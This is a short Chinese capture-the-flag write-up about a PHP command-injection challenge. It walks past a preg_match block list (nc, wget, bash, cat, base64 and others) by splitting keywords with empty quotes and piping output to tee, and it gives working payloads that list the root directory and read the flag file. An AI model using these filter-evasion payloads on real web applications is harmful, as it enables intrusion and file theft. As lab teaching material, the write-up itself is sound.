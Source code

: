 # 例题

![image-20250402201531211](./assets/image-20250402201531211.png)

分析源码：

get传参url

preg_match过滤

Bash

Nc

Wget

Ping

Ls

Cat

More

Less

Phpinfo

Base64

Echo

Php

Python

Mv

Cp

La

\-

\>

<

%

$

![image-20250402201538049](./assets/image-20250402201538049.png)

可以执行命令，但是无回显

可以利用tee配合管道符绕过

没有过滤 ' 

可以利用其绕过ls cat 

构造payload

```
?url=l''s / |tee 1.txt
```

接着查看1.txt

![image-20250402201614429](./assets/image-20250402201614429.png)



读取flllllaaaaaaggggggg

构造payload:

```
?url=tac /flllll''aaaaaaggggggg|tee 5.txt
```



查看5.txt

![image-20250402201628117](./assets/image-20250402201628117.png)